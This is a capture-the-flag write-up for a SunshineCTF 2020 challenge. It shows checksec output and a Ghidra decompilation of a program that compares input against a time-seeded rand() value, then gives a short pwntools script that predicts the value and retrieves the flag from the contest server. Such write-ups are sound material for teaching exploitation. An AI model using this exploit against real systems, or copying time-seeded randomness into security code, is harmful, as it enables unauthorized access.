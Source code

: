 ### Checksec
```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Again all mitigations in place.

### Decompile with Ghidra

```c
void main(void)
{
  time_t tVar1;
  long in_FS_OFFSET;
  uint local_18;
  uint local_14;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  tVar1 = time((time_t *)0x0);
  srand((uint)tVar1);
  local_14 = rand();
  __isoc99_scanf(&DAT_00100aea,&local_18);
  if (local_14 == local_18) {
    win();
  }
  else {
    printf("Got: %d\nExpected: %d\n",(ulong)local_18,(ulong)local_14);
  }
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
    __stack_chk_fail();
  }
  return;
}
```

The exploit here it taking advantage of `rand`.  From the code, seed with the current time.  So just compute the same random number with `rand` using the UTC time as the seed.

### Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./chall_17')

if not args.REMOTE:
    p = process(binary.path)
else:
    p = remote('chal.2020.sunshinectf.org', 30017)

from ctypes import *
libc = cdll.LoadLibrary('libc.so.6')
libc.srand(libc.time(None))

p.sendline(str(libc.rand()))
log.info('flag: ' + p.recvline().decode())
```
